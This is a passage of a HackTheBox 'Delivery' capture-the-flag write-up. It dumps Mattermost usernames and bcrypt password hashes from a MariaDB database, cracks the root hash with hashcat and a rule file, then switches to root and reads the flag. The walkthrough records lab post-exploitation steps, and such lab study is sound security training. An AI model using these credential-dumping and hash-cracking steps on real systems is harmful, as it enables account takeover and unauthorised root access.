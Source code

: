 ```     
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)

MariaDB [mattermost]> SELECT Username,Password FROM Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| tria                             | $2a$10$egwTZfobwaeSO.8l/H98M.j4npYXvNEuq0uUWmTQggwHswuC/z/rS |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
```

### PASSWORD

We can crack the hashed password of root using hashcat and rockyou.txt as written on internal channel on mattermost

We also know that the password is going to be a variation of `PleaseSubscribe! `

After saving the hash in `root` file and the string `PleaseSubscribe!` in `password` file I run hashcat 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/delivery]
└─$ hashcat -m 3200 root password --user -r /usr/share/hashcat/rules/best64.rule
```

```
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

### SU

```
maildeliverer@Delivery:/opt/mattermost/config$ su root
Password: 
root@Delivery:/opt/mattermost/config# cd /root
root@Delivery:~# cat root.txt
685cbf29c4b39860709701d0c4162d07
```











